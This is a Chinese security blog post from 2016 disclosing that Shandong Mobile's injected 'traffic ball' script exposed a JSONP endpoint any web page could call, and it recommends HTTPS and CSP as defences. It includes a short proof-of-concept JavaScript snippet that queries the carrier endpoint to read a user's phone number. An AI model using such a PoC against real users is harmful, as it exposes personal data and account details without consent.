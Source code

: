 ```yaml
---
id: 732
layout: post
title: '运营商劫持造成的风险案例'
date: 2016-04-14 16:36:00
author: virusdefender
tags: 
---
```


山东移动在使用3/4G的时候，会在网页中插入一段js，然后在网页右下角显示一个流量球，显示你当前剩余流量，点击流量球还可以办理业务。

![请输入图片描述][1]

![请输入图片描述][2]

但是在使用jsonp查询的时候没有进行有效的安全校验，导致用户在使用3/4G的时候该接口可以被任意网页js调用，可以获取用户手机号码，当前已经办理的业务，当前的套餐情况，办理各种套餐等。当然这里除了对手机号打码之外也没有别的办法进行校验，毕竟是插入到别人的页面的，校验referer肯定不行。


![请输入图片描述][3]

获取手机号的poc

```js
var angular = {"callbacks": {"_y": function(data){console.log(data);alert(data.respparam.phoneNumber);}}};

$.ajax({
        url: "http://wap.toolbar.sd.chinamobile.com:8080/html/servicereq/queryMessageList?callback=angular.callbacks._y&csession=-1648015146&reqparam=%7B%22flag%22:%22-1%22,%22startNum%22:%221%22,%22number%22:%2210%22%7D&templateId=fullscreenbar",
        method: "get",
        dataType: "jsonp",
        jsonp: "angular.callbacks._y",
})
```

![请输入图片描述][4]

运营商劫持已经成为国内互联网安全隐患之一，越来越多的网站选择使用https来防范运营商劫持。使用CSP策略是暂时无法使用https的网站的临时解决方案。

根据 http://www.cnblogs.com/Kevin-Zhao/articles/5216686.html qq音乐全站使用了下面的CSP策略

```
content-security-policy:script-src https: *.qq.com *.sinajs.cn *.gtimg.cn *.url.cn *.tenpay.com *.qpic.cn *.qpimg.cn *.idqqimg.com *.gtimg.com *.soso.com 'unsafe-inline' 'unsafe-eval'; report-uri http://qm.music.qq.com/report_csp
```

2016年02月21日一天内就有2,322,499次占1.63%的PV被拦截上报，统计如下

![请输入图片描述][5]

可见国内运营商劫持是多么的猖狂。


  [1]: http://storage.virusdefender.net/blog/images/732/1.png
  [2]: http://storage.virusdefender.net/blog/images/732/2.png
  [3]: http://storage.virusdefender.net/blog/images/732/3.png
  [4]: http://storage.virusdefender.net/blog/images/732/4.jpg
  [5]: http://storage.virusdefender.net/blog/images/732/5.png